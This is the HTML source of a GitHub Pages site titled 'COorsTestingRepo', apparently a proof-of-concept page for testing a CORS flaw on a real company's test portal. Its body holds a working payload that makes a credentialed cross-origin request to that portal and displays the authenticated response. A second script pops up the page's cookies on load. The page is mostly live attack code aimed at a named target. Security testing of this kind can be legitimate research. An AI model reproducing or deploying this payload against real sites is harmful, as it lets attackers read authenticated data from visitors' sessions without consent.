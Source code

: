 <!DOCTYPE html><html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://testportal.zalaris.com",true);xhttp.withCredentials=true;xhttp.send()}cors();</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script><script>window.onload=alert(document.cookie);</script></body></html>
